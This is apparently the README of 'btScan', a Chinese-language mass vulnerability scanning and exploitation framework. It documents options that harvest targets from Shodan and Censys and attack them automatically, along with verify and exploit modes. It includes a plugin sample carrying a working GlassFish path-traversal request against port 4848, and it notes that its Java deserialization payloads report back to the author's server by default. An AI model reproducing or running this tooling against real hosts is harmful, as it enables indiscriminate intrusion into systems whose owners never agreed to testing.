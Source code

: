 ## 目录结构

    --lib 核心文件库

    --report 报告生成的文件夹

    --node 里面每一个py文件是一个攻击向量，添加扫描节点也是向里面添加文件

    --crawl 通过空间搜索引擎抓取url或者ip的脚本
    

## 使用方法
    python btScan.py
    usage: btScan.py [options]
    
    * batch vulnerability verification and exploition framework. *
    By he1m4n6a
    
    optional arguments:
      -h, --help   show this help message and exit
      -t THREADS   Num of scan threads for each scan process, 20 by default
      -m MODE      select mode [config|script]
                   e.g. -m script
      -n NAME      from node floder choose a script
      -c COMMAND   give an instruction when use script mode [verify|exploit]
                   e.g. -c verify
      -u URL_FILE  input url file
      -i IP_FILE   input ip file
      -autoIP      get ip from space search engine and auto attack
      -autoURL     get url from space search engine and auto attack
      -v           show program's version number and exit

脚本存在两种验证模式，一种是通过加载模块，另一种是通过配置文件。复杂的可以通过加载脚本，简单的通过加载配置文件即可。然后攻击也有两种模式，验证verify模式和攻击exploit模式。 你也可以指定ip或者url作为输入格式，也可以自动获取ip或者url，那就是配合crawl文件下的网络空间抓取模块。

**示例**
```
python btscan.py -n joomla -m script -c verify -u url.txt
-n 指定node文件夹下的joomla.py，-m指定为script模式，即指定加载模块的模式。-c指定模式为验证，仅为验证就好了，-u指定输入为url的模式。
```
```
python btscan.py -n joomla -m script -c exploit -u url.txt
同上，只是指定为攻击模式。
```
```
python btscan.py  -m config -c verify -i ip.txts
-m指定为config模式，-c指定为验证模式，-i指定输入的为ip模式，仅需通过conf目录下的scan_rule.ini的配置就够了。
```


## 插件编写规则

仅需要在node文件夹下新增一个py文件

py文件中重要的有两个函数verify和exploit函数，没有exploit攻击模式，仅需要verify函数，返回值有三个值，第一个值是返回是否存在漏洞，返回True或者False；第二个值是返回url，第三个值返回需要打印的信息。

***示例(glassfish.py为例)***

```
#!/usr/bin/env python
#coding=utf8

import requests

def verify(ip):
    url = 'https://' + str(ip) + ':4848//theme/META-INF/%c0%ae%c0%ae/%c0%ae%c0%ae/'
    try:
        r = requests.get(url, verify=False, timeout=5)
        if 'ejb-timer-service-app' in r.text:
            msg = 'vul'
            return True, ip, msg
	else:
            msg = 'safe'
            return False, ip, msg
    except Exception, e:
        #msg = str(e)
	msg = 'safe'
        return False, ip, msg


def exploit(ip):
    verify(ip)
```
上面函数都可以自己定义，主要是verfiy和exploit函数，如果exploit函数和verify函数一样，exploit函数里面只要简单的调用verify(url)即可。

## 其他

crwal文件夹的NetSearch.py里面的shadon和censys模块的密钥要自己填上。
java反序列化的payload要自行更改，不然结果是发送到我的vps上。

有任何交流和问题可以联系我he1m4n6a@163.com
